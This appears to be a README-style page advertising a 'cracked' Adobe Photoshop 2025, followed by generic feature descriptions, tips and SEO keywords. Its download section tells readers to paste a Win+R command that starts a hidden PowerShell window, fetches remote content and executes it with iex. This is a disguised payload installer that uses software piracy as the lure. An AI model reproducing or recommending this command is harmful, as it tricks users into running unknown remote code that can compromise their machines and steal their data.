 ## **Photoshop Cracked** | **Adobe Photoshop 2025** 🖌️📷
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://example.com/wZWZqs';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>
## Project Description.
**Adobe Photoshop ** is a powerful image editing software used by professionals and enthusiasts alike. This guide provides information on how to download Adobe Photoshop for free, as well as tips on how to effectively utilize its features.

## Key Features.
- **Advanced Image Editing**: Edit photos with precision using a wide range of tools.
- **Layer Management**: Organize your work using layers to create complex compositions.
- **Filters & Effects**: Apply stunning filters and effects to enhance your images.
- **Text & Typography**: Add and manipulate text in graphic design projects.
- **Creative Cloud Integration**: Access your projects from anywhere with cloud storage.


##Tips for using Adobe Photoshop 🎨
- **Learn the tutorials**: Take advantage of Adobe's extensive library of tutorials to learn about various features.
- **Use keyboard shortcuts**: Familiarize yourself with keyboard shortcuts to speed up your workflow.
- **Experiment with tools**: Feel free to try different tools and effects to unlock their potential.

## License 📄.
Adobe Photoshop is a proprietary software product. The free trial version allows you to use the program for a limited time without being charged.

## Useful Links 🌐
- [Adobe Photoshop Tutorials](https://helpx.adobe.com/photoshop/tutorials.html)
- [Adobe Creative Cloud](https://www.adobe.com/creativecloud.html)

---

**SEO Keywords**: Adobe Photoshop, free download, image editing, image editing, graphic design, photo editing, Photoshop alternatives, Creative Cloud.
